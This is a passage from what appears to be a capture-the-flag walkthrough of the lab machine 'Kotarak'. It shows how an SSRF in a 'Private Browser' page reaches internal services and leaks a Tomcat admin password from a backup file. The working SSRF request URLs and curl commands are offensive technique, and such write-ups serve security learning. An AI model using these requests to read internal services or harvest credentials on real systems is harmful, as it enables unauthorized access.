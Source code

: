 
### 2. Getting User

We have 2 interesting services.<br>
On the port 8080, we have Tomcat and on the port 60000, we can find a "Private Browser".
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-01-14/2020-01-14-14-03-25.png)

By adding a parameter, we can view the prohibited web pages of Kotarak like "server-status".<br>
Meaning, this web application has a SSRF (Server Side Request Forgery) vulnerability and an attacker can view the hidden services.<br>
The interesting point is that "Kotarak" has a running service on "127.0.0.1:888".
#### Request to see "http://10.10.10.55:60000":
{% highlight shell %}
http://10.10.10.55:60000/url.php?path=http://localhost:60000/server-status
{% endhighlight %}
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-01-14/2020-01-14-14-11-44.png)

Then,take a look at "127.0.0.1:888" by sending the following request to the native web browser.
#### Request to see "http://10.10.10.55:8888":
{% highlight shell %}
http://10.10.10.55:60000/url.php?path=http://localhost:888
{% endhighlight %}
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-01-14/2020-01-14-14-12-20.png)

To go to each hyperlink, sounds we need to add "?doc=backup" parameter.<br>
So, "http://localhost:888/?doc=backup" is the appropriate URL to access to these links.
{% highlight shell %}
root@kali:~# curl -s http://10.10.10.55:60000/url.php?path=http://localhost:888 | grep backup
    <td width="27"><a href="?doc=backup"  class="tableElement"><img src="inc/images/generic.png" alt="dir" width="22" height="22" border="0"></a></td>
    <td class="tableElement"><a href="?doc=backup"  class="tableElement">backup</a></td>

root@kali:~#
{% endhighlight %}

Then, try to access the "backup" file on the port 888.<br>
Sounds it's empty page but by taking a look at source code, we can find a hidden credential.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-01-14/2020-01-14-21-06-09.png)
{% highlight shell %}
root@kali:~# curl -s http://10.10.10.55:60000/url.php?path=localhost:888/?doc=backup | grep password
  you must define such a user - the username and password are arbitrary. It is
  them. You will also need to set the passwords to something appropriate.
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
    <user username="admin" password="3@g01PdhB!" roles="manager,manager-gui,admin-gui,manager-script"/>

root@kali:~#
{% endhighlight %}

By going to "http://10.10.10.55:8080/manager/html" and try some possible password combination,<br>
we can figure out the following credential is available for tomcat.
{% highlight shell %}
admin:3@g01PdhB!
{% endhighlight %}
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-01-14/2020-01-14-14-50-37.png)
